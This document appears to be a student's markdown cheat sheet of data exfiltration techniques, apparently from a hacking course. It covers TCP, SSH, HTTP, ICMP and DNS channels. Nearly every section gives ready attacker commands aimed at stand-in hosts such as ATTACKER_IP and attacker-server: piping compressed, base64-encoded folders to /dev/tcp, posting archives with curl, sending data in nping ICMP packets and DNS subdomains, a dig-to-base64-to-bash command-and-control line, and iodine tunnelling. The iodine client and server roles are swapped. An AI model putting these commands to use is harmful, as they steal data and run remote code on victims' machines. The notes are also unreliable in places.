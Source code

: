 [Data Exfiltration](#data-exfiltration)
  - [TCP](#tcp)
  - [SSH](#ssh)
  - [HTTP](#http)


# Data Exfiltration
- extract information
- outbound traffic TCP/UDP 53 (DNO)

- Bind9 server
  - buy a domain (https://www.youtube.com/watch?v=p8wbebEgtDk)

## TCP
- easy to detect
- listener on attacker: nc -lvp XXX > output.txt
  
- connecttion on victim:
  - tar zfc - folder/ | base64 | dd conv=ebcdic > /dev/tcp/ATTAcKER_IP/PORT
    - compress folder
    - convert to base64
    - convert and copy file, from ASCI du EBCDIC
    - send to this Port
- Received file
  - dd conv=ascii if=received.file | base64 -d > file.tar

## SSH
- Connection on victim 
  - tar cf - filder/ | ssh user@ip "cd /tmp/; tar xpf -"

## HTTP
- post request: not cached, not in browse, not bookmarked, no restriction on size
- SEND: curl --data "files=$(tar zcf - FOLDR/ | base64)" http://attacker-server/file.php
- RECEIVE: correct URL enconding

- HTTPS
  - https://www.digitalocean.com/community/tutorials/how-to-create-a-self-signed-ssl-certificate-for-apache-in-ubuntu-18-04

## ICMP
- fill out data-field with data
- ping 
  - -p = in hexadecimal
    - xxd -p = convert to hexadecimal
  - Metasploit  
    - Begin of File (BOF) + End of File (EOF)
    - auxiliry=> icmp_exfil
    - BPF_FILTER = only for icmp
- nping
  - Victim: 
    - send BOF
      - nping --icmp -c 1 ATTACKER_IP --data-string "BOFfile.txt"
  - send DATA
    - nping --icmp -c 1 ATTACKER_IP --data-string "blabla"
  - send EOF
    - nping --icmp -c 1 ATTACKER_IP --data-string "EOF"
  - icmpdoor
    - needs execution on victim
    - all traffics goes through ICMP
    - icmpdoor -i eht0 -d IP
  - Attacker
    - icmp-cnc -i eth1 -d IP

## DNS
- Extract data from DNS
- Easy to bypass firewalls and IPS
- Perfom dns request and input data there
  - Ex: user:password@domain.thm
- Steps
  - find data to sent
  - encode data 
  - send as subdomain, max 255 characters URL and 63 subdomain
- cat file_to_sent
  - tr -d "\n" = remove breakline
  - fold -w18 = divide in block of 18 characters
  - sed -r 's/.*/&.domain'/ = append domain
- Decode
  - filter extracted file and decode

- Command and Control
  - encode script 
  - add it to TXT dns record
  - ask for this record: dig +short -t TXT
  - decode script
  - execute it
  - dig +short -t TXT ns.domain | remove " | base64 -d | bash

### DNS Tunnel
- TCP over DNS
- iodine
  - client
  - and server
  - Client
    - iodined -f -c -P password IP/CID att.tunnel.com
      - create new interface dns0
      - -f background
      - -c no checking client ip and for
      - -P set password
      - IP = set network IP and interface
      - att.tunnel = nameserver
  - Server
    - iodine -P password att.tunnel.com
    - 